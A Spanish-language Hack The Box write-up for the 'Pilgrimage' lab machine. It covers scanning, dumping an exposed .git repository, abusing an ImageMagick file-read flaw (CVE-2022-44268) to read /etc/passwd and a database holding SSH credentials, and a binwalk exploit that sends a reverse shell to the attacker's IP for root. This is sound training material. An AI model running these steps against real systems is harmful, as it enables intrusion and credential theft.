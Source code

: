 ```yaml
---
layout: single
title: Pilgrimage - Hack The Box
excerpt: "Para resolver esta máquina nos aprovechamos del código fuente del servicio web, que lo obtenemos al hacer la respectiva enumeración, donde allí veremos como funciona por detrás a la hora de subir una imagen, incluso viendo la versión de la herramienta que se utiliza para subir la imagen, la cual contiene una vulnerabilidad de las que nos aprovechamos para convertirla a LFI obteniendo credenciales válidas para conectarnos por SSH, para posterior a ello llevar un RCE para escalar nuestro privilegio."
date: 2023-10-30
classes: wide
header:
  teaser: /assets/images/htb-writeup-sau/pilgrimage_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - Enumeration Web (/.git)
  - file upload abuse
  - CVE-2022-44268
  - Arbitrary file read
  - LFI
  - abusing scripting bash
---
```


![](/assets/images/htb-writeup-sau/pilgrimage_logo.png)

Para resolver esta máquina nos aprovechamos del código fuente del servicio web, que lo obtenemos al hacer la respectiva enumeración, donde allí veremos como funciona por detrás a la hora de subir una imagen, incluso viendo la versión de la herramienta que se utiliza para subir la imagen, la cual contiene una vulnerabilidad de las que nos aprovechamos para convertirla a LFI obteniendo credenciales válidas para conectarnos por SSH, para posterior a ello llevar un RCE para escalar nuestro privilegio


# PortScan

```
nmap -sCV -p22,80 -oN targeted 10.10.11.219

Nmap scan report for pilgrimage.htb (10.10.11.219)
Host is up (0.058s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 20be60d295f628c1b7e9e81706f168f3 (RSA)
|   256 0eb6a6a8c99b4173746e70180d5fe0af (ECDSA)
|_  256 d14e293c708669b4d72cc80b486e9804 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Pilgrimage - Shrink Your Images
| http-git: 
|   10.10.11.219:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Pilgrimage image shrinking service initial commit. # Please ...
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 30 09:58:12 2023 -- 1 IP address (1 host up) scanned in 9.34 seconds
```

# Sitio Web


![](/assets/images/htb-writeup-sau/Pasted image 20231030160138.png)

Tendríamos este sitio web, el cual podemos registrarnos, para loguerarnos y posterior a esto subir fotos, aunque no es necesario, pero sí nos logueamos sería más fácil para ver las fotos que hemos subido con su ruta de donde está subida.

Podemos analizar el código fuente, probar con credenciales básicas & default para intentar entrar como Root pero no encontaríamos nada, más no obstante al fuzzear la dirección del sitio web con "**GoBuster**", descubriríamos los siguientes directorios **Git**.

```
 gobuster dir -u http://pilgrimage.htb/ -w /usr/share/SecLists/Discovery/Web-Content/common.txt -t 20 -x php,html,js,txt


/.git/HEAD            (Status: 200) [Size: 23]
/.git/logs/           (Status: 403) [Size: 153]
/.git                 (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/]
/.git/logs/.html      (Status: 403) [Size: 153]                                  
/.git/config          (Status: 200) [Size: 92]                                   
```

Vemos que el recurso **Git** que usualmente suele estar oculto está expuesto, estos podríamos descargarlo manualmente, pero sí indagamos podríamos encontrar herramientas qué descargan los recursos automáticamente, como por ejemplo esta [Git Dumper](https://github.com/arthaud/git-dumper), la cual nos descargará los recursos de la URL indicada con el directorio **/.git** indicado, sé recomienda leer cómo usarla en el repositorio de la misma herramienta.


![](/assets/images/htb-writeup-sau/Pasted image 20231030161111.png)

Sí nos abrimos el "**index.php**".


![](/assets/images/htb-writeup-sau/Pasted image 20231030161308.png)


Notaremos qué está usando el el "**Magick Convert**", para hacer un resize del %50, y meterlo en la ruta de descargar con un nuevo nombre, y la extensión de la imagen, y más abajo nos chiva la ruta absoluta donde está guardando esto.

al descargar los recursos, obtuvimos el binario del "**magick**", así que procedemos a ver la versión para poder ver si está desactualizada y es vulnerable a algo.

![](/assets/images/htb-writeup-sau/Pasted image 20231030161752.png)

Sí indagamos en busca de vulnerabilidades de esta versión de **magick**, encontraríamos una vulnerabilidad de un "**Arbitrary File Read**" en [Exploit-DB](https://www.exploit-db.com/exploits/51261), la cuál nos facilita un [PoC](https://github.com/voidz0r/CVE-2022-44268), del cuál podemos aprovecharnos para crear imágenes "contaminadas" para aprovecharnos del File Read, y llevar a cabo un LFI.

Una vez subamos la imagen, nos descargamos la misma imagen en local con "wget" para visualizar los metadatos de la misma con "identify".

![](/assets/images/htb-writeup-sau/Pasted image 20231030163405.png)

Nos representará una cadena en **hexadecimal**, la cual debemos convertir en texto claro para que sea legible y en éste caso ver el "/etc/passwd", en este caso usaremos un convertidor online para convertirlo en texto claro.

![](/assets/images/htb-writeup-sau/Pasted image 20231030163639.png)


Como vemos hemos llevado a cabo un **LFI** y leído el passwd, pero sí intentamos listar las claves del .ssh no veremos nada, ni indagando encontraríamos nada interesante, por lo qué nos aprovechamos qué sabemos la ruta absoluta de la db, que es "**/var/db/pilgrimage**" para tratar de ver sí conseguimos credenciales.

![](/assets/images/htb-writeup-sau/Pasted image 20231030164035.png)

En la cual al convertirla a texto plano encontraríamos las credenciales de **emily** para conectarnos a través de **SSH**.


# Escalada de Privilegios


Usamos **pspy64** para buscar posibles brechas qué podamos aprovechar para escalar nuestro privilegios a Root.

![](/assets/images/htb-writeup-sau/Pasted image 20231030164924.png)

Vemos qué Root está ejecutando un script en bash, en el cual podemos leer y dentro tiene el siguiente código:

```bash
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done

```

El script monitorea el directorio `/var/www/pilgrimage.htb/shrunk/` en busca de archivos recién creados. Luego, verifica si el contenido de cada archivo contiene ciertas cadenas de texto prohibidas, como "Executable script" o "Microsoft executable". Si se encuentra alguna de estas cadenas, el archivo se elimina automáticamente, y lo está haciendo con el binario binwalk.

![](Pasted image 20231030165452.png)

Cuyo versión **binwalk**, sí indagamos en busca de vulnerabilidades encontraremos qué podemos llevar a cabo un **RCE** con esta versión en específico según Exploit-DB, el cual ahí mismo nos proporciona un exploit programado en python para otorgarnos una Reverse Shell. [(Click aquí para ver exploit)](https://www.exploit-db.com/exploits/51249)

El cuál debemos ejecutarnos estando en la ruta "/var/www/pilgrimage.htb/shrunk" y indicar los parámetros de nuestra IP que estarmos escuchando y nuestro puerto.

```
python3 exploit.py image.png 10.10.14.x 443
```

![](/assets/images/htb-writeup-sau/Pasted image 20231030170607.png)
